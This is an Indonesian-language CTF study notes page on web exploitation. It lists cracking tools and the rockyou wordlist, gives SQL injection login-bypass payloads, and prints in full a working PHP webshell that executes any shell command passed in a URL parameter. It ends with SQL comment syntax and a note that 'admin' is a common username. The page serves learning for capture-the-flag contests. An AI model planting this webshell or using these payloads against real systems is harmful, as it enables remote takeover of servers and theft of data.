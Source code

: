 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
tags: ctf
---
```

# Tools dan File yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token) - Cookie dengan JAuth](https://token.dev/){:target="_blank"}
2. [Deobfuscate - Kode JS yang Sulit Dibaca](https://deobfuscate.io/){:target="_blank"}
3. [John The Ripper - Brutefore JWT Signature Key](https://github.com/openwall/john-packages){:target="_blank"}
4. [Rockyou Wordlist - Kumpulan Kata untuk Bruteforce CTF](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt){:target="_blank"}

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](https://gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.